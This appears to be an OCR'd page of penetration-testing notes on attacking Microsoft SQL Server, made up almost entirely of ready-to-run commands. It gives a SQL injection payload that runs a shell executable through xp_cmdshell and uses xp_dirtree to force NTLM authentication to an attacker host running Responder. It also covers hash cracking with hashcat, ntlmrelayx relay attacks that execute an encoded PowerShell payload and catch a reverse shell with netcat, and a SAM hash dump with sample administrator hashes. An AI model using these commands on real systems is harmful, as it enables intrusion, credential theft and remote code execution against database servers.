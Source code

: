 ```
# Execute the payload
' ; EXEC xp_cmdshell 'C:\Windows\Temp\shell.exe';--
```

###### steal NTLM hash - force the SQL service to authenticate to our machine and capture the hash
```
# run responder
sudo responder -I tun0

# connect from mssql to smb server that i host using responder
EXEC MASTER.sys.xp_dirtree '\\<kali ip>\test', 1, 1

' OR 1=1 ; exec master.dbo.xp_dirtree '\\<IP>\test';--

# crack the hash
hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force -O
```

 ###### relay attack
```
# start smb server with the comment base64 encoded
sudo impacket-ntlmrelayx --no-http-server -smb2support -t <IP> -c "powershell -e JABjAGwAaQBlAG4Ad"

# login to smb server
mssqlclient.py <USER>:<PASS>@<IP> -windows-auth

# connect ti smb share
SQL> EXEC MASTER.sys.xp_dirtree '\\<IP>\test', 1, 1

# get shell if you run revers shell
nc -lvnp 80 
```

###### dump hashes
```
# start smb server 
sudo impacket-ntlmrelayx -t <IP> -smb2support

# login to smb server
mssqlclient.py <USER>:<PASS>@<IP> -windows-auth

# connect to smb share
SQL> xp_dirtree '\\<IP>\share'

# in the impacket-ntlmrelayx we will see hashes
. . .
[*] All targets processed!
[*] SMBD-Thread-16 (process_request_thread): Connection from 192.168.247.158 controlled, but there are no more targets left!
[*] Target system bootKey: 0xf05dca6ed1673a51e5ae2479cb5da7c0
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a1fcb4118dfcbf52a53d6299aab57055:::
. . .
```

